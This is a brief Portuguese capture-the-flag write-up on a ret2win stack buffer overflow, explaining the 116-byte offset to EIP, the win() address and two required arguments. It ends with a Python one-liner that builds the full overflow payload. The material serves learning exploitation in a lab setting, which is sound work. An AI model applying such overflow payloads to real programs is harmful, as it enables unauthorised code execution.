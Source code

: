 Aqui, também temos um buffer overflow ret2win básico. A diferença é que aqui a função `win()` espera dois argumentos, que devemos passar manualmente pela stack.

![](/Screenshots/Pasted%20image%2020220315221710.png)

O primeiro argumento é esperado que seja `0xCAFEF00D`, e o segundo `0xF00DF00D`

Com 112 bytes + 4 , conseguimos sobrescrever o EIP

![](/Screenshots/Pasted%20image%2020220329111820.png)

A função `win()` está no endereço `0x08049296`

![](/Screenshots/Pasted%20image%2020220329112019.png)

Para passar os dois argumentos para ela, basta continuar sobrescrevendo o buffer e fornecê-los normalmente:

`112 bytes + win() + 4 bytes padding + primeiro argumento + segundo argumento`

Para isso:

`python -c "print('A'*112 + '\x96\x92\x04\x08' + 'AAAA' + '\x0d\xf0\xfe\xca' + '\x0d\xf0\x0d\xf0')"`

![](/Screenshots/Pasted%20image%2020220316095020.png)